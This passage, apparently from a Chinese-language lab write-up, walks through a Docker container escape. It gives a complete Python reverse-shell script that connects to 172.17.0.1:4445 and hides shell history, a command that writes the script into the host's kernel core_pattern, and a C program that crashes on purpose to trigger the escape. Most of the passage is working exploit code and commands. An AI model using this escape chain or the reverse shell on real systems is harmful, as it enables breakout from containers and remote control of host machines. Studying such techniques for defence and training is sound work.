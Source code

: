 ```php
vim /tmp/.ning.py
```

```php
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.17.0.1"
lport = 4445
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.ning.py')
   s.close()
if __name__ == "__main__":
   main()

```

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1701618780952-76fd3b7f-cf39-4a85-873d-4a572daabe72.png)

接下来赋权并且将该脚本写到目标的 proc 目录下

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1701619002995-94b1dee8-c7b9-4fa8-a849-413ad3ee0314.png)

```php
echo -e "|/var/lib/docker/overlay2/
a96c15fc172fbec0b7251a44e21408746afa9e9571202132618ed251db3a84a4/merged/tmp/.ning.py
\rcore " >  /host/proc/sys/kernel/core_pattern
```

然后我们使用c写一个可以触发崩溃的程序

```php
vim ning.c
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
gcc ning.c -o ning
chmod 777 ning
```

紧接着我们在攻击机上起监听

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1701622418452-3de6d02e-5a9b-40d5-8aa6-c263b0c04747.png)
